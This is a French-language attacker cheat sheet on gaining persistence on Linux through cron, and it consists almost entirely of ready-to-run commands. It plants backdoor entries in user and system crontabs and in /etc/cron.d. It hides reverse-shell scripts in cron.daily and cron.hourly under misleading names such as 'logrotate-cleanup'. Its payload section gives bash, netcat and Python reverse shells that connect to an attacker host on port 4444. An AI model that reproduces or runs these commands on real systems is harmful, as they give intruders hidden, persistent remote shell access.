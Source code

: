 ## Techniques d'Établissement de Persistance

### 1. Modification de Crontab Utilisateur
```bash
# Ajouter une tâche dans la crontab de l'utilisateur actuel
(crontab -l 2>/dev/null; echo "*/5 * * * * /tmp/.hidden/backdoor.sh") | crontab -

# Méthode alternative avec echo
echo "*/10 * * * * nc -e /bin/bash attacker_ip 4444" | crontab -
```

### 2. Injection dans les Cron Jobs Système
```bash
# Ajouter une entrée dans /etc/crontab (nécessite root)
echo "*/15 * * * * root /tmp/malware.sh" >> /etc/crontab

# Créer un fichier dans /etc/cron.d/
echo "*/5 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" > /etc/cron.d/backdoor
```

### 3. Placement de Scripts Malveillants
```bash
# Dans les répertoires de cron périodiques
cp backdoor.sh /etc/cron.daily/update-system
chmod +x /etc/cron.daily/update-system

# Script déguisé en tâche légitime
cp reverse_shell.sh /etc/cron.hourly/logrotate-cleanup
chmod 755 /etc/cron.hourly/logrotate-cleanup
```

## Exemples de Payloads

### Reverse Shell Bash
```bash
# Crontab entry
*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'

# Script file (/tmp/rev.sh)
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

### Python Reverse Shell
```bash
# Crontab entry
*/10 * * * * python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
